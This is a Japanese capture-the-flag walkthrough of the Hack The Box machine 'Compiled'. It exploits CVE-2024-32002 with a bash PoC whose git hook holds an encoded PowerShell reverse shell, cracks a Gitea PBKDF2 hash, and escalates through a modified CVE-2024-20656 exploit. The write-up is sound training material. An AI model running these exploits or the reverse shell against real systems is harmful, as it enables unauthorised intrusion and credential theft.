

# Compiled


# Enumeration

## nmap

```bash
kali@Kali [11時34分34秒] [~/HTB/Compiled] 
-> % nmap --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- 10.10.11.26 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-11 11:34 JST
Nmap scan report for compiled.htb (10.10.11.26)
Host is up, received user-set (0.091s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE    REASON  VERSION
3000/tcp open  ppp?       syn-ack
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=33607557e5d3f90b; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=AFGRkw-kEuRfwBW4tuftBk0QU_w6MTczMTI5MTg1ODQ2MzA0NTAwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Mon, 11 Nov 2024 02:24:18 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-arc-green">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>Git</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0Iiwic2hvcnRfbmFtZSI6IkdpdCIsInN0YXJ0X3VybCI6Imh0dHA6Ly9naXRlYS5jb21waWxlZC5odGI6MzAwMC8iLCJpY29ucyI6W3sic3JjIjoiaHR0cDovL2dpdGVhLmNvbXBpbGVkLmh0YjozMDAwL2Fzc2V0cy9pbWcvbG9nby5wbmciLCJ0eXBlIjoiaW1hZ2UvcG5nIiwic2l6ZXMiOiI1MTJ4NTEyIn0seyJzcmMiOiJodHRwOi8vZ2l0ZWEuY29tcGlsZWQuaHRiOjMwMDA
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=32822644cd3de54f; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=CJNIDRWeQ6zESubWCUZHQ5qo2486MTczMTI5MTg2NDgwOTQ3NzEwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Mon, 11 Nov 2024 02:24:24 GMT
|_    Content-Length: 0
5000/tcp open  upnp?      syn-ack
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.3 Python/3.12.3
|     Date: Mon, 11 Nov 2024 02:24:18 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 5234
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Compiled - Code Compiling Services</title>
|     <!-- Bootstrap CSS -->
|     <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
|     <!-- Custom CSS -->
|     <style>
|     your custom CSS here */
|     body {
|     font-family: 'Ubuntu Mono', monospace;
|     background-color: #272822;
|     color: #ddd;
|     .jumbotron {
|     background-color: #1e1e1e;
|     color: #fff;
|     padding: 100px 20px;
|     margin-bottom: 0;
|     .services {
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
5985/tcp open  http       syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp open  pando-pub? syn-ack
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port3000-TCP:V=7.94SVN%I=9%D=11/11%Time=67316DDB%P=x86_64-pc-linux-gnu%
SF:r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\
SF:x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20B
SF:ad\x20Request")%r(GetRequest,153A,"HTTP/1\.0\x20200\x20OK\r\nCache-Cont
SF:rol:\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nC
SF:ontent-Type:\x20text/html;\x20charset=utf-8\r\nSet-Cookie:\x20i_like_gi
SF:tea=33607557e5d3f90b;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nSet-Co
SF:okie:\x20_csrf=AFGRkw-kEuRfwBW4tuftBk0QU_w6MTczMTI5MTg1ODQ2MzA0NTAwMA;\
SF:x20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Frame-Op
SF:tions:\x20SAMEORIGIN\r\nDate:\x20Mon,\x2011\x20Nov\x202024\x2002:24:18\
SF:x20GMT\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en-US\"\x20class=\"th
SF:eme-arc-green\">\n<head>\n\t<meta\x20name=\"viewport\"\x20content=\"wid
SF:th=device-width,\x20initial-scale=1\">\n\t<title>Git</title>\n\t<link\x
SF:20rel=\"manifest\"\x20href=\"data:application/json;base64,eyJuYW1lIjoiR
SF:2l0Iiwic2hvcnRfbmFtZSI6IkdpdCIsInN0YXJ0X3VybCI6Imh0dHA6Ly9naXRlYS5jb21w
SF:aWxlZC5odGI6MzAwMC8iLCJpY29ucyI6W3sic3JjIjoiaHR0cDovL2dpdGVhLmNvbXBpbGV
SF:kLmh0YjozMDAwL2Fzc2V0cy9pbWcvbG9nby5wbmciLCJ0eXBlIjoiaW1hZ2UvcG5nIiwic2
SF:l6ZXMiOiI1MTJ4NTEyIn0seyJzcmMiOiJodHRwOi8vZ2l0ZWEuY29tcGlsZWQuaHRiOjMwM
SF:DA")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20
SF:text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\
SF:x20Request")%r(HTTPOptions,197,"HTTP/1\.0\x20405\x20Method\x20Not\x20Al
SF:lowed\r\nAllow:\x20HEAD\r\nAllow:\x20GET\r\nCache-Control:\x20max-age=0
SF:,\x20private,\x20must-revalidate,\x20no-transform\r\nSet-Cookie:\x20i_l
SF:ike_gitea=32822644cd3de54f;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\n
SF:Set-Cookie:\x20_csrf=CJNIDRWeQ6zESubWCUZHQ5qo2486MTczMTI5MTg2NDgwOTQ3Nz
SF:EwMA;\x20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Fr
SF:ame-Options:\x20SAMEORIGIN\r\nDate:\x20Mon,\x2011\x20Nov\x202024\x2002:
SF:24:24\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,67,"HTTP/1
SF:\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset
SF:=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5000-TCP:V=7.94SVN%I=9%D=11/11%Time=67316DDB%P=x86_64-pc-linux-gnu%
SF:r(GetRequest,105D,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/3\.0\.
SF:3\x20Python/3\.12\.3\r\nDate:\x20Mon,\x2011\x20Nov\x202024\x2002:24:18\
SF:x20GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Lengt
SF:h:\x205234\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20
SF:lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\x20
SF:\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-width,
SF:\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Compiled\x20-\x20Code
SF:\x20Compiling\x20Services</title>\n\x20\x20\x20\x20<!--\x20Bootstrap\x2
SF:0CSS\x20-->\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"http
SF:s://stackpath\.bootstrapcdn\.com/bootstrap/4\.5\.2/css/bootstrap\.min\.
SF:css\">\n\x20\x20\x20\x20<!--\x20Custom\x20CSS\x20-->\n\x20\x20\x20\x20<
SF:style>\n\x20\x20\x20\x20\x20\x20\x20\x20/\*\x20Add\x20your\x20custom\x2
SF:0CSS\x20here\x20\*/\n\x20\x20\x20\x20\x20\x20\x20\x20body\x20{\n\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\x20'Ubuntu\x20Mon
SF:o',\x20monospace;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20back
SF:ground-color:\x20#272822;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20color:\x20#ddd;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\.jumbotron\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20background-color:\x20#1e1e1e;\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20padding:\x20100px\x2020px;\n\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20margin-bottom:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x
SF:20}\n\x20\x20\x20\x20\x20\x20\x20\x20\.services\x20{\n\x20")%r(RTSPRequ
SF:est,16C,"<!DOCTYPE\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<he
SF:ad>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\
SF:x20\x20\x20\x20\x20\x20\x20<title>Error\x20response</title>\n\x20\x20\x
SF:20\x20</head>\n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20
SF:<h1>Error\x20response</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x2
SF:0code:\x20400</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x
SF:20request\x20version\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20
SF:\x20\x20<p>Error\x20code\x20explanation:\x20400\x20-\x20Bad\x20request\
SF:x20syntax\x20or\x20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>
SF:\n</html>\n");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 450.21 seconds
```

httpポート `3000`, `5000` が2つとWinRMが開いています。

ドメインは見つかりませんでしたが一応追加しておきます。

```
10.10.11.26	compiled.htb
```

## Web

5000ポートにアクセスしてみます。

C++, C#, .NETをコンパイルするのためのサイトみたいです。

ページ下部にgitのリポジトリURLを記入するフォームがあるので試しに適当なURLを入れてみます。


どうやら送信されたURLのリポジトリをクローンするらしい


もう一つのポート3000にアクセスするとGiteaのページが表示されました。


アカウントを作成することができるので適当に作てみます。


エクスプローラーを見てみると２つのリポジトリを見つけました。


どうやらC++で記述された電卓とポート5000で動いていたWebサイトのリポジトリみたいです。

Calculatorの中を覗いてみると `git version 2.45.0.windows.1` をインストールする必要があることが分かりました。


`git 2.45.0` に脆弱性がないか調べてみると以下の記事を見つけました。

[Exploiting CVE-2024-32002: RCE via git clone](https://amalmurali.me/posts/git-rce/)


この脆弱性はGitの`git clone`コマンドに関連するリモートコード実行（RCE）の脆弱性です。この攻撃は、ターゲットが悪意のあるリポジトリを再帰的にクローンした場合に発生し、その結果、サブモジュールに含まれるフックが実行されます。この脆弱性は、Gitがリポジトリサブモジュール内のシンボリックリンクを処理する際に発生します。

# Exploit

記事で説明されているエクスプロイトの詳細を見てみると、アクセス可能なリポジトリが 2 つと、それらのリポジトリの 1 つを再帰的にクローンする必要があることがわかります。

Giteaのアカウントを作成し、リポジトリを２つ作成します。


次にリポジトリの設定を行います。

```bash
git config --global protocol.file.allow always
git config --global core.symlinks true
git config --global init.defaultBranch main
```

## ステージングリポジトリの設定

作成したリポジトリをクローンしてディレクトリ `y` とサブディレクトリ `y/hooks/` を作成します。

```bash
git clone http://compiled.htb:3000/test/StagingRepository.git
```

`y/hooks/` 内に、次の内容の `post-checkout` ファイルを作成します

ペイロードは [Reverse Shell Generator](https://www.revshells.com/) を使用します。

```bash
#!bin/sh.exe
*PowerShellリバースシェル*
```

post-checkoutファイルに実行権限を与えます。

```bash
chmod +x y/hooks/post-checkout
```

権限を与えたらリモートリポジトリにプッシュします。

```bash
git add y/hooks/post-checkout
git commit -m "post-checkout"
git push
```

## 実行リポジトリの設定

Giteaに作成したもう一つのリポジトリをクローンしてステージングリポジトリをサブモジュールとして追加します。

```bash
git clone http://compiled.htb:3000/test/ExecutingRepository.git
git submodule add --name x/y "http://compiled.htb:3000/test/StagingRepository.git" A/modules/x
```

変更をコミットします。

```bash
git commit -m "add-submodule"
```

リポジトリ内に `.git` を指すシンボリックリンクを作成し、そのシンボリックリンクをGitのインデックスにつかしてコミットします。

```bash
printf ".git" > dotgit.txt
git hash-object -w --stdin < dotgit.txt > dot-git.hash
printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" > index.info
git update-index --index-info < index.info
git commit -m "add-symlink"
```

変更をプッシュする。

```bash
git push
```

これで準備が完了しました。

以下のコードは一連のコードをまとめたPoCになります。

```
#!/bin/bash

git config --global protocol.file.allow always
git config --global core.symlinks true
git config --global init.defaultBranch main

git clone http://compiled.htb:3000/test/StagingRepository.git
cd StagingRepository
mkdir -p y/hooks
cat > y/hooks/post-checkout <<EOF
#!bin/sh.exe
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMQA3ACIALAA0ADQANAA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
EOF
chmod +x y/hooks/post-checkout
git add y/hooks/post-checkout
git commit -m "post-checkout"
git push
cd ..

git clone http://compiled.htb:3000/test/ExecutingRepository.git
cd ExecutingRepository
git submodule add --name x/y "http://compiled.htb:3000/test/StagingRepository.git" A/modules/x
git commit -m "add-submodule"
printf ".git" > dotgit.txt
git hash-object -w --stdin < dotgit.txt > dot-git.hash
printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" > index.info
git update-index --index-info < index.info
git commit -m "add-symlink"
git push
```

あとはリスナーを起動してExecutingRepositoryのリポジトリのURLをポート5000で動作しているフォームに送信するだけ


少し待つと、応答が得られ、ユーザー `Richard`としてシェルを取得することができました


# 水平展開

`C:\Users` フォルダ内に `Emily` というユーザーがいることが分かりました。まず `Emily` に横移動する必要がありそうです。


まず今のシェルだとファイルの送受信を行う際とてもめんどくさいのでSliver C2を使います。

## Sliver のセットアップ


サーバー起動して、インプラントを作成します。

```
generate --mtls 10.10.16.34 --save . --os windows
```

インプラントをターゲットマシンにアップロードします。


アップロードが完了するとSliverでサーバーを起動して、インプラントを実行するとシェルを操作できるようになります。


これで楽にファイルの送受信をできるようになりました。

Giteaがインストールされていることが分かっているのでフォルダ内を調べると `gitea.db` というデータベースファイルを見つけた。


`gitea.db` をダウンロードします。



ファイルを調べると sqlite3のデータベースファイルであることが分かります。


DB Browserでデータベースファイルを開いてみると、テーブルが大量に見つかり、その中に `user` というテーブルを見つけました。


userテーブルを見てみるとユーザーのパスワードハッシュがみつかりました。

emilyのパスワードハッシュがあるのでこれを解析します。

## PBKDF2のクラック


テーブルをには `passwod_hash_algo` というカラムがあり、`pbkdf2` というアルゴリズムでハッシュ化しているみたいです。


データに `pbkdf2$50000$50` とあります。これは以下のように分割できます

```
pbkdf2
50000
50
```

`pbkdf2` : パスワードから暗号化キーを生成するためのアルゴリズムでSHA-256やSHA-512などが使用される。

`50000` : 反復回数。この場合、パスワードは50000回の反復を経てハッシュ化される。

`50` : 生成されるキーの長さ（バイト単位）この場合50バイトのハッシュキーを生成される。

つまり、PBKDF2アルゴリズムを使用して、50,000回の反復処理を行い、50バイトの長さの鍵を生成することを意味しています。hashcatでは `-m 10900` でクラックできます。

hashcatを使用するには以下のフォーマットにしてあげる必要があります。

```
sha256:<反復回数>:<base64_salt>:<base64_passwd>
```

データベースのemilyの `passwd` , `salt` カラムの値をbase64でエンコードします。

```bash
# salt
echo "227d873cca89103cd83a976bdac52486" | xxd -r -p | base64
```

```bash
# passwd
echo "97907280dc24fe517c43475bd218bfad56c25d4d11037d8b6da440efd4d691adfead40330b2aa6aaf1f33621d0d73228fc16" | xxd -r -p | base64
```

エンコード結果をフォーマット通りに入力すると以下のようになります。

```
sha256:50000:In2HPMqJEDzYOpdr2sUkhg==:l5BygNwk/lF8Q0db0hi/rVbCXU0RA32LbaRA79TWka3+rUAzCyqmqvHzNiHQ1zIo/BY=
```

入力できたらhashcatを走らせます。

```
hashcat -m 10900 hash.txt /usr/share/wordlists/rockyou.txt
```

解析が成功し、パスワードが `12345678` であることがわかりました。


このパスワードでRunasCsを使用して `emily` のシェルを取得します。

msfvenomでペイロードを作成してアップロードします。


RunasCsもアップロードします。


ペイロードアップロードできたらリスナーを起動してRunasCsでemilyとしてpayload.exeを実行します。このとき実行するペイロードは絶対パスで指定してあげます。

```powershell
./RunasCs.exe emily 12345678 C:\temp\payload.exe
```

emilyとしてシェルを取得することができました。


sliverのインプラントを実行してemilyのセッションを作ります。


user.txtを取得しました。つづいてAdministratorを目指します。


# 特権昇格

Documentsフォルダに `Visual Studio 2019` のフォルダがあります。


## CVE-2024-20656

`Visual Studio 2019` に関する `Local Privilege Escalation` がないか調べてみたところ以下の記事を発見しました。

[CVE-2024-20656 – Local Privilege Escalation in the VSStandardCollectorService150 Service](https://www.mdsec.co.uk/2024/01/cve-2024-20656-local-privilege-escalation-in-vsstandardcollectorservice150-service/)

この脆弱性は `VSStandardCollectorService150` が診断データの収集プロセス中にファイル権限の処理が不適切であることに起因している。

### VSStandardCollectorService150とは

Microsoft Visual Studioの診断ツールの一部であり、パフォーマンスの分析やデバッグのための診断データを収集するサービスで、必要なシステムリソースにアクセスするためにデフォルトで `NT AUTHORITY\SYSTEM` で実行されます。

### 脆弱性の詳細

1. 診断データを格納するディレクトリを作成する
2. サービスの動作中、`SetNamedSecurityInfoW` 関数を使用してファイルの権限を変更するが、このディレクトリが正しく操作されていれば、他のファイルにリダイレクトすることが可能になる
3. 攻撃者は指定されたディレクトリからファイルシステム内の他の場所にリンクを作成することができ、サービスがこのリンクを操作することで、意図しないファイルの権限を変更することができるようになる

### Exploit

PoCがないか調べてみたところGitHubに以下のPoCを見つけた

[CVE-2024-20656](https://github.com/Wh04m1001/CVE-2024-20656?tab=readme-ov-file)

リポジトリをVisual Studioでクローンする

ソースファイルの 4行目に `VSDiagnostics.exe` のパスがあるのでターゲットマシン上のパスと同じになるように変更する

```c++
WCHAR cmd[] = L"C:\\Program Files (x86)\\Microsoft Visual Studio\\2019\\Community\\Team Tools\\DiagnosticsHub\\Collector\\VSDiagnostics.exe";
```

ソースファイルの187行目の `C:\windows\system32\cmd.exe` をリバースシェルペイロードに変更する

emilyのシェルを取得した際のペイロードを使います。

変更前

```c++
CopyFile(L"c:\\windows\\system32\\cmd.exe", L"C:\\ProgramData\\Microsoft\\VisualStudio\\SetupWMI\\MofCompiler.exe", FALSE);
```

変更後

```c++
CopyFile(L"c:\\temp\\payload.exe", L"C:\\ProgramData\\Microsoft\\VisualStudio\\SetupWMI\\MofCompiler.exe", FALSE);
```

編集が完了したら構成を `Releases` でビルドしてターゲットマシンにアップロードする


リスナーを起動し、PoCを実行します。


SYSTEM権限のシェルを取得することができました。


root.txtを取得して終了です。


